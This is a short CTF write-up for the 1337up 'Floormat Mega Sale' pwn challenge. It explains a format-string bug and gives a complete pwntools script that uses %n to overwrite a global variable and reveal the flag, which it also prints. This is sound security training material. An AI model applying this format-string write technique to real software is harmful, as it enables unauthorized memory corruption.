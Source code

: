 You can download challenge file in [here](https://github.com/q11N9/CTF_Writeups/blob/main/CTFpwn/1337up-live-ctf/pwn/Floormat_Mega_Sale/floormat_sale.zip). 

A format-string bug in here:

![image](https://hackmd.io/_uploads/B1iyfzSGyg.png)

**employee_access()** will give us flag if **employee == 0** 

![image](https://hackmd.io/_uploads/SJhMzfBMyl.png)

Address of **employee**:

![image](https://hackmd.io/_uploads/BynXfGBfJl.png)

We can use `%n` to overwrite the value of **employee**
Script: 
```python!
#!/usr/bin/env python3

from pwn import *

exe = ELF("./floormat_sale_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("floormatsale.ctf.intigriti.io", 1339)

    return r


def main():
    r = conn()
    # input()
    employee = 0x40408c
    payload = f'%{0x1}c%14$n'.encode()
    payload = payload.ljust(0x20, b'A')
    payload += p64(employee)
    r.sendline(b'6')
    r.sendline(payload)
    # pause()
    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()

```
Run on local:
![image](https://hackmd.io/_uploads/H1dUffHf1x.png)
Run on server: 
![image](https://hackmd.io/_uploads/r1_wzfBz1x.png)

Flag: ```INTIGRITI{3v3ry_fl00rm47_mu57_60!!}```
